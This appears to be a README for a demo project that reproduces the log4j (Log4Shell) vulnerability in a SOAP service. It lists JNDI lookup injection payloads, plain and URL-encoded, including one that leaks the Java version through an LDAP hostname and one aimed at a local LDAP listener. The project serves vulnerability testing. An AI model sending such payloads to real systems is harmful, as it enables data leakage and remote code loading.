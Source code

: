 # log4jReproduce
This project includes SOAP project with vulnerable log4j library and shows how it can be vulnerable

use the following payload (in encrypted format) to check the vulnerability

${jndi:ldap://jv-${sys:java.version}}
encoded : %24%7Bjndi%3Aldap%3A%2F%2Fjv-%24%7Bsys%3Ajava.version%7D%7D

${jndi:ldap://jv-${hostName}}
encoded : 

${jndi:ldap://127.0.0.1:1234/}
encoded : %24%7Bjndi%3Aldap%3A%2F%2F127.0.0.1:1234%2F%7D
